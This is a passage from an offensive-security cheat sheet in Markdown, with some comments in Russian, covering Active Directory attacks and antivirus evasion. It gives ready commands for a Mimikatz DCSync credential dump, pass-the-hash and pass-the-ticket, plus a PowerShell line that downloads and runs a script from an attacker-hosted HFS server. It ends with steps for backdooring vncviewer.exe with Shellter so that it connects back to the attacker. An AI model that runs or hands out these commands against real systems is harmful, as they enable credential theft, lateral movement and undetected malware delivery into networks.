 ```powershell
#"token::elevate" "lsadump::dcsync /domain:research.security.local #/user:administrator@research.security.local"'

# New powershell session
powershell -ep bypass
.\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:domain /ntlm:NTLMHASH /run:powershell.exe"'

Enter-PSSession prod.research.SECURITY.local
```

### Pass the Ticket
```powershell
powershell -ep bypass
.\PowerView.ps1
Get-Domain
Find-LocalAdminAccess
Enter-PSSession PCNAME

# Upload files via HFS
iex (New-Object Net.WebClient).DownloadString('HFSIP/FileName')

Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
Invoke-Mimikatz -Command '"kerberos::ptt TICKET"'

# Check access
ls \\DOMAINCONTROLLERNAME\c$
```


# 🛡️ AV Evasion & Code Obfuscation

---

## 🧨 AV Evasion with Shellter

### Шаги для создания скрытого payload:
```bash
cd /usr/share/windows-resources/shelter
sudo wine shelter.exe
# Внутри Shelter:
A  # Автоматический режим
# Скопируй vncviewer в свою директорию:
cp /usr/share/windows-binaries/vncviewer.exe ~/Desktop/AVBypass/
Y
L
1  # Или нужный индекс
# Введи LHOST и LPORT (твой IP и порт)
```
